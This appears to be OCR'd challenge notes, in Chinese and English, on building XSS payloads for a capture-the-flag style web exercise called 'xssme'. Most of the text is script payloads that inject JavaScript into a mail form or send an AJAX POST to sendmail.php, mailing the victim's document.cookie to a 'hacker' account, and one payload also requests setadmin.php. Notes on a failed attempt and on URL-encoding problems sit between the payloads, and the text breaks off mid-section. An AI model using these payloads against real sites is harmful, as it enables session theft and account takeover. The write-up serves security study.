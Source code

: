 ```
      * 因為 = 號在轉拋的時候會 urlEncode, 到下一頁 javascript 不會運行 urlEncode 後的 %3d.

---

## xssme construct 1
* ">&lt;script>setTimeout(function(){
```
document.getElementById("to_user").setAttribute("value","hacker");
document.getElementById("subject").setAttribute("value",document.cookie);
document.getElementById("content").setAttribute("value","cookie");
im_robot.click();
document.getElementsByTagName("form")[0].setAttribute("method","POST");
```
* },3000);&lt;/script><"

Note:
* 其實還在思考 im_robot 的運作原理, 還有是不是要等待秒數.
* 使用 burp 在 sendmail page, 直接貼在 to 參數, 沒有被 urlEncode 的程式碼, 可以在 firefox 運行.

---

## xssme construct 1 Failed !
* location.href='sendmail.php?to=
  * ">&lt;script>setTimeout(function(){
```
document.getElementById("to_user").setAttribute("value","hacker");
document.getElementById("subject").setAttribute("value",document.cookie);
document.getElementById("content").setAttribute("value","cookie");
im_robot.click();
document.getElementsByTagName("form")[0].setAttribute("method","POST");
```
  * },3000);&lt;/script><"
* ';

Note:
* 在 Browser 的 console 貼入 payload 送出, 結果 ", >, <, 送出前在 javascript 就被 urlEncode 了, 到 sendmail page, 不能 work.
* 當然整包 htmlEncode 放到 content 也是相似的結果.

---

## xssme construct 2
* sample code, 直接寫 ajax post sendmail page 吧.
```
var xhttp = new XMLHttpRequest();
xhttp.open("POST", "sendmail.php");
xhttp.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhttp.send("to_user=hacker&subject=cookie&content="+document.cookie);
var xhttp = new XMLHttpRequest();
xhttp.open("GET", "setadmin.php");
xhttp.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhttp.send("to_user=hacker&subject=cookie&content="+document.cookie);
```

---

## xssme construct 2
```